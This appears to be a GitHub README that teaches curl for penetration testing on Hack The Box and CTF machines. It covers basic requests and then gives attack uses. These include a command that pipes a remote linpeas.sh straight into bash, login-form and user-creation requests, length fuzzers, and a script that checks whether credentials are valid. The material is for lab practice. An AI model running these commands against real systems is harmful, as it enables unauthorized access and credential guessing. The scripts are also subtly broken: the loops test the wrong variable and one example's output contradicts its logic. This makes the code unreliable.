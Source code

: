 # Hacking With cURL
A list of examples and references of hacking with Bash and the Curl command.

## What the heck is cURL?
cURL is short for "Client URL" and is a computer software project providing a library (libcurl) and command-line tool (curl) first released in 1997. It is a free client-side URL transfer library that supports the following protocols:
`Cookies, DICT, FTP, FTPS, Gopher, HTTP/1, HTTP/2, HTTP POST, HTTP PUT, HTTP proxy tunneling, HTTPS, IMAP, Kerberos, LDAP, POP3, RTSP, SCP, and SMTP`
Although attack proxies like BurpSuitePro are very handy tools, cURL allows you to get a bit closer to the protocol level, leverage bash scripting and provides a bit more flexibility when you are working on a complex vulnerability.

## cURL GET parameters
HTTP GET variables can be set by adding them to the URL.
```Bash
$ curl http://10.10.10.10/index.php?sessionid=vn0g4d94rs09rgpqga85r9bnia
```

## cURL POST parameters
HTTP POST variables can be set using the -d (--data) parameter.  
Here is a simple login test example:  
```Bash
$ curl --data "email=test@test.com&password=test" http://10.10.10.10/login.php
```
## cURL COOKIEs
cURL has an entire cookie engine that can be used to store and load cookies passed to it from a server between sessions:
```Bash
$ curl -b oldcookies.txt -c newcookies.txt http://10.10.10.10/login.php
```
You can also specify your own cookies using the -b parameter:
```Bash
$ curl -b "PHPSESSID=vn0g4d94rs09rgpqga85r9bnia" http://10.10.10.10/home.php
```

## cURL User Agents
```Bash
$ curl -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" http://10.10.10.10/login.php
```

## cURL Save the server response to a file
```Bash
$ curl -o payload.sh http://10.10.10.10/payload.sh
```

## cURL download a file to the current folder
```Bash
$ curl -O http://10.10.10.10/payload.zip
```

## cURL follow HTTP/1.1 302 Found redirects
```Bash
curl -L http://10.10.10.10/profile.php
```

## cURL Output Response Headers to STDOUT
```Bash
$ curl -i http://10.10.10.10/profile.php
```

## cURL view verbose debugging information (response headers and other debug details - STD2)
```Bash
$ curl -v http://10.10.10.10/profile.php
```

# Hacking with cURL
Now that we have covered the basic syntax and use cases, here are some practical hacking applications that are very helpful on Hackthebox or CTF boxes.

## Using cURL to pipe a remote scipt (linpeas.sh) directly to bash:
```Bash
$ curl -sSk "http://10.10.10.10/linpeas.sh" | bash
```

## Attacking a Login Form with cURL
```Bash
$ curl --data "email=test@test.com&password=test" http://10.10.10.10/login.php
```

## Creating new users with cURL
```Bash
$ curl --data "name=test&email=test@test.com&password=test" http://10.10.10.10/newuser.php
```

# Fuzzing Web Servers with cURL
Often we performing an assessment against a webserver, we will attempt to trigger error conditions which will provide some deeper insights into the underlying processes and software. cURL can be a powerful fuzzing tool for generating these edge case error messages.

## Fuzzing with URI length / GET parameter length limits with cURL

The following script can be used to fuzz a webserver with a long URL track the changes in output and write the output to a file.
It is meant to be a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash.
You can modify the url to either fuzz a URI or a GET parameter.

Here is the bash shell script:
```Bash
#!/bin/bash
echo "args: <URL> <Start Length #> <End Length #> <Output Filepath>"
echo "Length Lines Words Bytes Filename"
echo "---------------------------------"
for ((i = $2; x <= $3; i++))
do
        fuzz=""
        for ((x = 1; x <= $i; x++))
        do
                fuzz+="A"
        done
        #echo "COUNT: $i $fuzz"
        #echo "${1}${fuzz}"
        echo "${i}" | { tr -d '\n' ; curl "${1}${fuzz}" -o ${4} 2>/dev/null | wc ${4}; }
done
```

Here is an example of what it looks like running:
```
./fuzz_url.sh http://10.10.10.10/ 1000 1000000 output.txt
args: <URL> <Start Length #> <End Length #> <Output Filepath>
Length Lines Words Bytes Filename
---------------------------------
1000 9  31 274 output.txt
...
...
100000 11  37 343 output.txt
100001 11  37 343 output.txt
100002 11  37 343 output.txt
100003 11  37 343 output.txt
100004 11  37 343 output.txt
100005 11  37 343 output.txt
```

## Fuzzing POST parameter length limits with cURL

The following script can be used to fuzz a webserver POST parameters and write the output to a file and track changes to that output.
It is meant to be a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash.

Here is the bash shell script:
```Bash
#!/bin/bash
echo "args: <URL> <Start Length #> <End Length #> <Output Filepath> <Post data: var=value&var2=valuefuzz>"
echo "Length Lines Words Bytes Filename"
echo "---------------------------------"
for ((i = $2; x <= $3; i++))
do
        fuzz=""
        for ((x = 1; x <= $i; x++))
        do
                fuzz+="A"
        done
        #echo "COUNT: $i $fuzz"
        #echo "${5}${fuzz}"
        echo "${i}" | { tr -d '\n' ; curl "${1}" -o ${4} -d "${5}${fuzz}" 2>/dev/null | wc ${4}; }
done

```

Here is an example of what it looks like running:
```
./fuzz_post.sh http://10.10.10.10/ 1000 1000000 output.txt "user=test&password=test"
args: <URL> <Start Length #> <End Length #> <Output Filepath>
Length Lines Words Bytes Filename
---------------------------------
1000 9  31 274 output.txt
...
...
100000 11  37 343 output.txt
100001 11  37 343 output.txt
```
## Check to see if a user login is correct in a Bash script

The following script can be used to verify that a username and login is correct.
It is meant to be a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash.
It will check the response length characters to see if it is a valid response.  You will need to adjust the expected character count for your application. 
```bash
#!/bin/bash
result=($(curl --data "email=$2&password=$3" "$1" 2>/dev/null | wc -c))
echo $result
if [ "$result" == '0' ]
then
        echo 'zero'
else
        echo 'NOT zero'
fi
```
Here is the script in action:
```bash
$ ./check_user.sh http://10.10.10.10/login.php test@test.com testpassword
0
NOT zero
```

